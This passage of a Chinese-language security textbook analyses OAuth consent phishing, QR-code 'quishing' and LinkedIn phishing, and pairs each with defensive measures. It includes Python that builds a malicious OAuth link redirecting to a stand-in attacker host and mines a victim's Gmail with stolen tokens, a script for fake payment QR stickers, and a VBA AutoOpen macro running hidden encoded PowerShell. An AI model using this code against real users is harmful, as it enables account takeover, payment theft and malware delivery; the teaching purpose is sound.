


## 23.5 钓鱼攻击高级案例深度剖析

钓鱼攻击（Phishing）已经从早期粗糙的"尼日利亚王子"式骗局，演变为高度定制化、多向量、跨平台的高级威胁。据 Verizon 2023年数据泄露调查报告（DBIR），约 **36% 的数据泄露涉及钓鱼攻击**，而其中超过 **80% 的钓鱼事件直接导致了账户接管或凭证泄露**。本章通过三大高级案例——OAuth钓鱼、二维码钓鱼（Quishing）、社交媒体钓鱼——深入剖析其技术原理、攻击链路、实操细节及纵深防御体系。

---

### 23.5.1 案例一：OAuth钓鱼攻击

OAuth钓鱼攻击是近五年增长最快的钓鱼变种之一，其**核心创新在于完全绕过了传统的密码+双因素认证防线**。攻击者不再需要窃取密码或破解MFA，而是利用OAuth协议本身的设计——用户主动授权第三方应用访问其数据——达成目的。

#### 23.5.1.1 OAuth协议的安全盲区

OAuth 2.0 授权框架（RFC 6749）的核心思想是"委托授权"：用户不以明文提供密码给第三方，而是通过授权服务器发放有限的访问令牌。这套设计原本是为了**增强安全性**，但这个信任模型中隐含了一个关键假设：

> **用户有能力判断"该不该授权某个应用的权限请求"**

而现实是——绝大多数用户**不具备这种判断能力**。

| OAuth设计假设 | 现实情况 | 安全后果 |
|---|---|---|
| 用户会仔细阅读权限范围 | 不到 3% 的用户会检查权限详情 | 过度授权无感知 |
| 用户能识别恶意应用 | 恶意应用仿冒知名品牌名称和图标 | 信任决策失真 |
| 授权是一次性行为 | 令牌可长期有效（数月到数年） | 持久后门 |
| 撤销机制用户友好 | 多数用户不知如何撤销已授权应用 | 权限不可逆 |

#### 23.5.1.2 完整攻击链路

```mermaid
flowchart TD
    A[攻击者注册恶意应用] --> B[配置OAuth回调URL至攻击者服务器]
    B --> C[构造授权请求链接]
    C --> D[通过钓鱼邮件/社交工程分发链接]
    D --> E[用户点击并登录合法OAuth提供商]
    E --> F[用户看到权限授权页面]
    F --> G{用户是否点击"授权"?}
    G -->|是| H[授权服务器生成授权码]
    H --> I[攻击者服务器收到授权码]
    I --> J[攻击者用授权码换取访问令牌]
    J --> K[使用令牌访问API获取数据]
    
    G -->|否| L[攻击失败]
    
    style A fill:#ff4444,color:#fff
    style K fill:#ff4444,color:#fff
    style H fill:#ffaa00,color:#000
    style J fill:#ff4444,color:#fff
```

**详细步骤分解：**

**第1步：攻击者注册恶意应用**
- 在目标OAuth提供商（Google、Microsoft、GitHub等）注册开发者账号
- 创建应用并设置**恶意重定向URI**（如 `https://attacker-server.com/oauth/callback`）
- 申请具有高价值的权限范围（读写邮件、云盘文件、联系人等）

**第2步：构造诱饵授权链接**
- 将OAuth授权URL伪装成正常链接
- 使用URL缩短服务（如 bit.ly）隐藏真实域名
- 配合社会工程文案制造紧迫感（"验证您的账号""确认邮箱地址"等）

授权URL示例如下：

```python
# 伪造的OAuth授权链接构造
import urllib.parse

# 实际的恶意应用参数
malicious_params = {
    "client_id": "9876543210-malicious.apps.googleusercontent.com",
    "redirect_uri": "https://evilsrv.com/oauth2callback",
    "response_type": "code",
    "scope": "openid email profile "
             "https://www.googleapis.com/auth/gmail.readonly "
             "https://www.googleapis.com/auth/drive.metadata.readonly",
    "state": "random_state_token_for_tracking",
    "access_type": "offline",          # 获取refresh_token，实现持久访问
    "prompt": "consent"                # 强制每次显示授权页面
}

base_url = "https://accounts.google.com/o/oauth2/v2/auth"
auth_url = base_url + "?" + urllib.parse.urlencode(malicious_params)
print(f"伪造授权URL:\n{auth_url}\n")
print(f"URL长度: {len(auth_url)} 字符 — 很容易隐藏在超链接中")
```

**第3步：分发与诱骗**
- 发送看似合法的邮件："Google安全中心要求重新验证您的Gmail权限"
- 邮件中嵌入伪装链接：`<a href="恶意链接">点击验证您的邮箱</a>`
- 用户看到的是**正常的Google登录页面**（域名是 `accounts.google.com`），信任感建立

**第4步：获取授权码**
- 用户在 Google 登录页面输入凭证并通过MFA
- 用户看到权限授权页面（请求"读取邮件""查看文件元数据"权限）
- 页面UI确实来自 Google，用户点击"允许"
- 浏览器被重定向到攻击者服务器，附带授权码（`?code=4/0AX...`）

**第5步：令牌换取与数据访问**

```python
import requests

# 用授权码换取访问令牌
token_endpoint = "https://oauth2.googleapis.com/token"
token_data = {
    "code": "4/0AX...",  # 劫持到的授权码
    "client_id": "9876543210-malicious.apps.googleusercontent.com",
    "client_secret": "GOCSPX-...",  # 攻击者应用的客户端密钥
    "redirect_uri": "https://evilsrv.com/oauth2callback",
    "grant_type": "authorization_code",
}

resp = requests.post(token_endpoint, data=token_data)
tokens = resp.json()

access_token = tokens.get("access_token")      # 短期令牌
refresh_token = tokens.get("refresh_token")     # 长期令牌（因access_type=offline）

# 使用访问令牌读取用户Gmail
headers = {"Authorization": f"Bearer {access_token}"}
emails = requests.get(
    "https://gmail.googleapis.com/gmail/v1/users/me/messages?maxResults=50",
    headers=headers
).json()

# 搜索包含"password""reset""invoice"等关键字的邮件
for msg in emails.get("messages", []):
    detail = requests.get(
        f"https://gmail.googleapis.com/gmail/v1/users/me/messages/{msg['id']}",
        headers=headers
    ).json()
    snippet = detail.get("snippet", "")
    if any(kw in snippet.lower() for kw in ["password", "reset", "invoice", "account"]):
        print(f"[高价值邮件] 主题: {detail.get('payload',{}).get('headers',[])}")
```

#### 23.5.1.3 真实案例分析：SolarWinds 后的 OAuth 攻击浪潮

2020年12月，SolarWinds供应链攻击曝光后，微软检测到**俄罗斯国家支持的黑客组织 NOBELIUM（APT29）大规模利用OAuth钓鱼攻击**。其攻击流程如下：

1. **注册恶意应用**：在Azure AD中注册名为"Microsoft Exchange Online Protection"的应用，名称高度模仿微软官方
2. **构造OAuth链接**：请求 `https://graph.microsoft.com/.default`（访问Microsoft Graph API）
3. **社工邮件**：发送看似来自微软安全中心的"MFA重新验证通知"
4. **获取令牌**：用户授权后，攻击者获得Graph API访问令牌
5. **横向移动**：利用令牌枚举组织架构、读取邮件、访问SharePoint文档

据微软2021年发布的报告，该活动**影响了超过150个组织**，包括政府机构、智库、IT服务商。与传统钓鱼不同，**OAuth攻击在用户授权后不会触发任何密码泄露告警**——MFA被成功绕过、密码未被篡改、登录日志显示来自合法用户，安全团队几乎无法察觉。

#### 23.5.1.4 检测与防御体系

| 防御层面 | 具体措施 | 技术实现 |
|---|---|---|
| 用户侧 | 慎重审核权限请求 | 检查应用名称/域名/所需权限是否合理 |
| 用户侧 | 定期检查已授权应用 | Google: myaccount.google.com/permissions |
| 用户侧 | 拒绝"离线访问"请求 | 除非确需长期使用 |
| 组织侧 | 条件访问策略 | 限制第三方应用访问条件 |
| 组织侧 | OAuth应用审批策略 | 仅允许白名单应用授权 |
| 组织侧 | 监控异常OAuth活动 | 审计日志检测突发批量授权 |
| 技术侧 | OAuth范围最小化 | 仅请求业务必要的最小权限 |
| 技术侧 | 令牌有效期限制 | 缩短访问令牌和刷新令牌有效期 |
| 技术侧 | 实施OAuth CPE | Continuous Permission Evaluation |

**企业级检测规则示例（Azure Sentinel / KQL）：**

```kusto
// 检测异常OAuth应用授权事件
AuditLogs
| where OperationName == "Consent to application"
| extend AppId = tostring(TargetResources[0].id)
| extend AppDisplayName = tostring(TargetResources[0].displayName)
| extend ConsentType = tostring(InitiatedBy.user.ipAddress)
// 识别高权限应用授权
| where TargetResources[0].modifiedProperties has "Mail.Read" 
    or TargetResources[0].modifiedProperties has "Files.ReadWrite.All"
| join kind=leftouter (
    // 排除已批准的白名单应用
    AppRegistrations
    | where IsApproved == true
    | project AppId
) on AppId
| where isempty(AppId1)  // 不在白名单中
| project Timestamp, UserPrincipalName, AppDisplayName, IPAddress = ConsentType
| summarize ApplicationsConsented = make_set(AppDisplayName) by UserPrincipalName, bin(Timestamp, 1h)
| where array_length(ApplicationsConsented) > 3  // 1小时内授权超过3个应用——异常行为
```

---

### 23.5.2 案例二：二维码钓鱼攻击（Quishing）

二维码钓鱼（QR Code Phishing，简称 Quishing）是后疫情时代增长最快的钓鱼攻击向量之一。据 Proofpoint 2022年报告，**二维码攻击环比增长超过 240%**，成为移动安全领域最令人担忧的趋势。

#### 23.5.2.1 为什么二维码钓鱼极度危险

二维码的天然特性使其成为钓鱼的**完美载体**：

1. **不可验证性**：人眼无法读取二维码内容——用户不知道扫描后跳转到哪里
2. **信任错位**：二维码在物理场景中出现（餐厅桌贴、停车场告示），物理存在产生虚假信任
3. **移动终端防护弱**：手机端URL预览不如桌面端完善，地址栏不明显
4. **触觉交互盲区**：无需打字——用户无法通过观察URL来"感觉"是否正常
5. **时效性压迫**：扫码场景通常伴随紧迫感（付款排队、入园验证），用户来不及思考

#### 23.5.2.2 攻击技术分类



#### 23.5.2.3 实战场景深度拆解

**场景一：停车场缴费二维码劫持（最广泛）**

这是2021-2023年间发生频率最高的真实攻击场景，在中国、美国、欧洲均有大量案例报道。

详细攻击流程：

1. **侦查阶段**：攻击者观察停车场收费二维码的印刷位置、大小、材质和维护周期
2. **二维码生成**：使用 `qrcode` 库生成指向钓鱼站点的二维码
   ```python
   import qrcode
   import random
   import string
   
   # 生成指向钓鱼页面的二维码
   phishing_url = "https://pay-platf0rm.com/verify?t=" + \
                  ''.join(random.choices(string.ascii_lowercase, k=8))
   
   qr = qrcode.QRCode(
       version=1,
       error_correction=qrcode.constants.ERROR_CORRECT_M,
       box_size=10,
       border=4,
   )
   qr.add_data(phishing_url)
   qr.make(fit=True)
   
   # 生成与合法二维码尺寸一致的贴纸
   img = qr.make_image(fill_color="black", back_color="white")
   img = img.resize((30, 30))  # 与常见停车缴费二维码一致
   img.save("malicious_qr.png")
   print(f"生成恶意二维码，指向: {phishing_url}")
   ```
3. **物理覆盖**：在凌晨/人流少时，将恶意二维码贴纸**精确覆盖**在合法二维码上
4. **数据窃取**：用户扫码后看到与合法平台**像素级一致的克隆页面**，输入车牌号和支付信息
5. **信息利用**：窃取的支付凭证被用于购买虚拟商品、绑定第三方支付账户

**场景二：快递通知二维码钓鱼（战术创新）**

攻击者利用快递包裹上的二维码贴纸（用户对快递单上二维码有天然信任）：

- 冒充快递公司发送"扫码查看物流详情"的短信
- 短信中的二维码实际指向恶意页面
- 用户扫码后被要求"验证身份"——输入手机号、验证码、支付密码
- 攻击者利用窃取的信息发起SIM卡交换攻击或直接盗刷

**场景三：疫情健康码仿冒（场景化定制）**

在中国疫情期间，攻击者仿冒健康码/行程码：

- 伪造官方小程序二维码（使用相似图案和颜色）
- 用户扫码后要求"实名认证"——输入姓名、身份证号、手机号
- 窃取的个人信息用于精准诈骗、贷款申请或黑产交易
- 利用用户的焦虑心理（不扫码不能进入公共场所）降低警惕性

#### 23.5.2.4 防御矩阵

| 防护对象 | 措施 | 实施细节 |
|---|---|---|
| **个人用户** | 扫描后检查URL | 在跳转前仔细查看地址栏域名 |
| **个人用户** | 使用安全扫码工具 | 选择有URL预览功能的扫码应用 |
| **个人用户** | 手动输入网址 | 对重要操作（支付）手动输入官方域名 |
| **商家** | 定期检查二维码 | 每日检查贴纸是否被覆盖/篡改 |
| **商家** | 使用动态二维码屏 | 电子屏显示二维码，防物理篡改 |
| **商家** | 减少表面二维码依赖 | 引导用户使用官方应用/小程序 |
| **技术方案** | 二维码数字签名 | 扫码时验证二维码的签名源 |
| **技术方案** | 移动端点URL扫描 | 扫码后自动检测目标URL信誉 |

> **核心防御原则**：对于任何涉及支付、登录、个人信息输入的场景，在扫码跳转后**务必手动验证域名**是否与官方一致。支付操作尽量使用官方应用（支付宝、微信支付原生扫码），而非通过浏览器进行。

---

### 23.5.3 案例三：社交媒体与专业社交网络钓鱼

社交媒体钓鱼（Social Media Phishing）和商务邮件欺诈（BEC——Business Email Compromise）在2020年后呈现融合趋势。攻击者通过 LinkedIn、Twitter、微信、QQ 等平台建立信任关系，再实施定向钓鱼。

#### 23.5.3.1 LinkedIn钓鱼攻击深度分析

LinkedIn 因其**专业身份认证的天然可信度**和**高价值目标集中性**，成为APT组织和社会工程专家的首选平台。据 Cyberint 2023年报告，LinkedIn 上的威胁活动同比增长了 **132%**。

**常用的攻击手法对比：**

| 攻击手法 | 伪装身份 | 获利方式 | 检测难度 | 目标 |
|---|---|---|---|---|
| 虚假招聘 | 猎头顾问/HR | 窃取个人信息 | 中 | 求职者 |
| 连接钓鱼 | 同行业专家 | 发送恶意链接 | 高 | 企业员工 |
| InMail武器化 | 客户/合作伙伴 | 附件投毒 | 高 | 中高层 |
| 冒充招聘经理 | 目标公司HR | 引导至钓鱼网站 | 中 | 特定候选人 |
| 伪造客户消息 | 现有客户 | 发送带木马合同 | 高 | 销售/法务 |

**深度案例：针对HR的攻击链**

以下是业内经典的真实案例（2019年某知名科技公司数据泄露事件）：

```text
攻击时间线
├── 第1-3天：攻击者创建虚假LinkedIn账号
│   ├── 使用AI生成的肖像照片（this-person-does-not-exist.com）
│   ├── 编造真实可信的职业背景（从被收购公司提取真实信息）
│   └── 连接50+目标公司员工（逐步建立社交图谱）
│
├── 第4-7天：建立信任关系
│   ├── 与目标HR经理进行3次以上行业话题讨论
│   ├── 点赞、评论目标帖文（社交互动建立熟悉感）
│   └── 通过朋友的朋友获取"社会证明"
│
├── 第8天：发送精心构造的"候选人简历"
│   ├── 文档名称："Senior_Software_Engineer_Resume_2024.docx"
│   ├── 文档包含恶意宏代码（从VBA代码中提取的木马加载器）
│   └── 利用Word图标和模板伪装，用户无警惕
│
├── 第9-14天：初始入侵与横向移动
│   ├── HR打开文档并启用宏（被伪造成"目录预览"功能）
│   ├── 宏从远程C2服务器下载Cobalt Strike beacon
│   ├── 通过HR电脑收集Active Directory信息
│   └── 横向移动到HR系统服务器
│
└── 第15-30天：数据窃取
    ├── 导出全公司员工个人信息（姓名、手机号、薪资、紧急联系人）
    ├── 窃取招聘系统数据库（包含面试者身份信息）
    └── 通过加密通道外传数据（使用Google Drive API伪装正常流量）
```

**恶意宏代码原理（防御理解用）：**

```vba
' 以下是用于教育的VBA宏代码分析
' 攻击者将此类代码隐藏在Word文档的ThisDocument或Module中
' 用户启用"内容"后自动执行

Sub AutoOpen()
    ' 代码混淆避开AV检测
    Dim shellCmd As String
    Dim encodedCmd As String
    
    ' PowerShell免杀脚本加载器
    ' 使用Base64编码绕过字符串检测
    encodedCmd = "JABXAEMAPQBOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ADsA..."
    
    ' 解码并执行
    shellCmd = "powershell.exe -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -EncodedCommand " & encodedCmd
    
    ' 创建Shell对象执行
    CreateObject("WScript.Shell").Run shellCmd, 0, False
End Sub

' 进阶攻击者会使用以下技术绕过检测：
' 1. 多次分段下载（分块绕过流量检测）
' 2. 使用WMI而非PowerShell（less monitored）
' 3. 动态API调用避免静态签名
' 4. 在宏中使用Sleep绕过沙箱时间检测（5-15分钟延迟执行）
```

#### 23.5.3.2 社交媒体钓鱼的心理操纵术

成功的社交媒体钓鱼不仅仅依赖技术手段，更重要的是**社会工程的心理操纵**。攻击者利用以下心理学原则：

| 心理原则 | 应用方式 | 实例 |
|---|---|---|
| **互惠原理** | 先提供价值再索取 | 先分享行业报告 → 再请求"帮我看看这个简历" |
| **权威效应** | 伪装权威身份 | 伪造猎头、VP、客户身份 |
| **社会认同** | 利用共同联系人 | "我看到你和张三都认识，想找你聊聊" |
| **稀缺性** | 制造紧迫感 | "仅今天开放的高级职位" |
| **一致性** | 先小请求再大请求 | 先连接请求 → 再请求查看简历 → 最后要求下载文件 |
| **喜好效应** | 模仿目标兴趣 | 研究目标帖文内容后，在对话中提及共同兴趣 |

#### 23.5.3.3 防御策略

**个人防御：**
- 对陌生连接请求保持警惕，不要仅因为对方有"共同联系人"就信任
- 无需在聊天窗口中向任何人发送个人敏感信息
- 对外发送的任何文件（简历等）先转换为PDF并禁用执行内容
- 使用沙箱环境打开来源不明的Office文档（如 Google Docs 预览）

**组织防御：**
- 部署邮件安全网关（SEG），检测恶意附件URL
- 实施宏策略：仅允许数字签名的宏运行
- 员工安全意识培训：重点覆盖社交媒体钓鱼场景
- 部署文件的动态沙箱分析（如 FireEye/CrowdStrike Falcon Sandbox）

---

### 23.5.4 高级钓鱼攻击的综合防御框架

单一的防御措施无法应对多变的钓鱼攻击。以下是一个**纵深防御矩阵**，覆盖预防、检测、响应、恢复四阶段：



#### 23.5.4.1 邮件钓鱼检测模板（邮件头分析）

当收到可疑邮件时，以下步骤可快速判断真伪：

```bash
# 1. 查看完整邮件头（以Gmail为例）
# 在Gmail中点击邮件 -> 三点菜单 -> "显示原始邮件"

# 2. 检查SPF/DKIM/DMARC认证
# 关键字段：
#   Authentication-Results: spf=pass (sender IP: 203.0.113.5)
#                        dkim=pass (signature: header.i=@paypal.com)
#                        dmarc=pass (action: none)
# 若以上任一为fail，高度可疑

# 3. 检查Return-Path是否匹配From
# Return-Path: <security@paipal-security.com>  ← 域名不同！
# From: "PayPal Security" <security@paypal.com>  ← 显示支付平台
# 不匹配 = 钓鱼攻击！

# 4. 检查Received链中间件服务器
# Received: from mail-ej1-f44.google.com (mail-ej1-f44.google.com [209.85.218.44])
# 若Received链中出现了与公司/发送者无关的邮件服务器，可疑
```

#### 23.5.4.2 组织级钓鱼模拟框架

建立有效的钓鱼模拟测试体系，应遵循以下原则：

| 阶段 | 内容 | 指标 |
|---|---|---|
| 基线测试 | 发送通用钓鱼邮件（"您的快递到了"） | 点击率基线 |
| 定制测试 | 发送行业相关的针对性邮件 | 中招率对比 |
| 情景测试 | 模拟真实攻击场景（OAuth/二维码/社交媒体） | 全链路上钩率 |
| 重复评估 | 每季度一次，持续追踪 | 点击率下降趋势 |

> 一个有效的数据：经过3次模拟测试和培训后，员工的钓鱼点击率通常从 **25-30% 降至 3-5%**（Proofpoint 2023年国家钓鱼基准报告）。

---

### 23.5.5 钓鱼攻击的未来趋势

随着AI技术的高速发展，钓鱼攻击正在进入一个全新的阶段——**AI驱动的超个性化钓鱼（Hyper-Personalized Phishing）**：

1. **Deepfake 语音钓鱼（Vishing 2.0）**：使用AI语音克隆技术，冒充CEO电话要求财务转账。2024年香港某跨国公司因此损失 2亿港元

2. **AI生成的多语言钓鱼**：ChatGPT等LLM可以生成语法完美的多语言钓鱼邮件，消除语言破绽

3. **实时定制化钓鱼**：攻击者通过爬取目标社交媒体动态，自动生成引用近期事件的高度可信钓鱼文案

4. **供应链OAuth链式攻击**：攻击第三方SaaS应用的OAuth集成，通过信任链横向渗透

5. **深度伪造视频钓鱼**：随着实时视频换脸技术进步，视频会议冒充攻击正在成为现实威胁

---

### 23.5.6 案例总结对比

| 维度 | OAuth钓鱼 | 二维码钓鱼 | 社交媒体钓鱼 |
|---|---|---|---|
| **攻击入口** | 授权请求链接 | 二维码扫描 | 社交工程消息 |
| **绕过防御** | 绕过密码+MFA | 绕过URL过滤 | 绕过邮件网关 |
| **技术门槛** | 中高（需注册应用） | 低（生成二维码即可） | 中（需创建虚假身份） |
| **检测难度** | 极高 | 中 | 高 |
| **主要目标** | 企业用户/云服务 | 普通消费者 | 企业人员/求职者 |
| **防御核心** | 权限审查+条件访问 | URL验证+物理防护 | 身份验证+文件沙箱 |
| **数据窃取类型** | API数据访问令牌 | 支付+个人信息 | 凭证+敏感文档 |

---

### 23.5.7 实操自检清单

每次面临"授权/扫描/点击"决策时，运行以下心理检查：

1. **这个请求是主动发起还是被动接收的？**（被动接收=可疑）
2. **我认识这个应用/二维码/发件人吗？**（不认识=谨慎）
3. **它请求的权限合理吗？**（为什么要访问我的邮件/通讯录？）
4. **有其他的验证方式吗？**（手动输入官网域名验证）
5. **真的有紧急必要吗？**（紧迫感是钓鱼的经典标志）

---

> **核心要诀**：钓鱼攻击的根本弱点不是技术，而是**人类认知的惯性**。每一次点击前的三秒停顿，都是对攻击者最有力的防御。保持怀疑、独立验证、最小授权——这三条原则可以阻挡 90% 以上的高级钓鱼攻击。